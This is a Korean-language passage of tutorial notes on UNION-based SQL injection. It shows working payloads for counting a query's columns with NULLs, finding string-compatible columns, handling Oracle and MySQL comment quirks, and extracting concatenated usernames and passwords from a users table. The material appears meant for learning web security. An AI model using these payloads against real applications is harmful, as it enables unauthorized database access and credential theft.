 칼럼수를 늘려가다가 에러가 나면, 그 직전의 칼럼수가 리턴되는 칼럼의 수이다. 
 

2. NULL

```sql
UNION SELECT NULL-- 
UNION SELECT NULL,NULL-- 
```

NULL의 수를 늘려가다가 에러가 안날때의 NULL수가 기존 칼럼 수이다. 

UNION을 하기 위해서는 칼럼수가 일치해야함을 이용해서 NULL값을 기존 쿼리값에 유니언시키는 방법으로 테스트를 한다. 
NULL은 모든 데이터 타입과 호환이 된다. 

오라클에서는 SELECT는 테이블과 함께 있어야 하기에 `' UNION SELECT NULL FROM DUAL--` 처럼 DUAL 테이블을 이용한다. 

My-SQL은 -- 뒤에 공백이 있어야 주석처리가 된다. 그래서 #를 대신 이용한다. 



**알맞은** **데이터** **타입의** **칼럼** **알아내기** 

내가 빼오고 싶어하는 데이타는 많은 경우 string type이다. 
그래서 기존 쿼리의 리턴 칼럼에서 string타입과 호환이 가능한 데이터 타입을 가진 칼럼을 찾아야한다. 

```sql
UNION SELECT 'a',NULL,NULL-- 
UNION SELECT NULL,'a',NULL--
-- 앞에 '+(공백) 을 붙여줘야한다.
```

에러가 나지 않을때 'a' 가 있는 칼럼 index가 string과 호환이 가능한 칼럼이다. 

따라서 injection을 할때 해당 칼럼을 이용한다. 

이제 알아낸 칼럼수, 타입의 칼럼을 통해서 다른 테이블의 정보를 빼내야 한다. 

이걸 위해선 테이블의 이름, 칼럼의 이름을 알아야한다. 

Examining 과정을 거치며 알아낸다. 
 

**한** **칼럼에** **여러** **칼럼의** **정보를** **넣는** **방법** 

테이블이름, 칼럼이름은 안다고 가정. 

기존 쿼리의 칼럼 수를 알아냄. 

```sql
UNION+SELECT+NULL,NULL+FROM+users-- 
UNION+SELECT+NULL,NULL,NULL+FROM+users-- 
```

다음은 users테이블에 username, password의 칼럼위치를 알아야한다. 

NULL값을 `username||+'~'+||password`로 하나하나 바꿔간다. 

```sql
UNION+SELECT+username||+'~'+||password,NULL+FROM+users-- 
UNION+SELECT+NULL,username||+'~'+||password+FROM+users-- 
```

그러면 어느 부분에서 응답이 온다. 
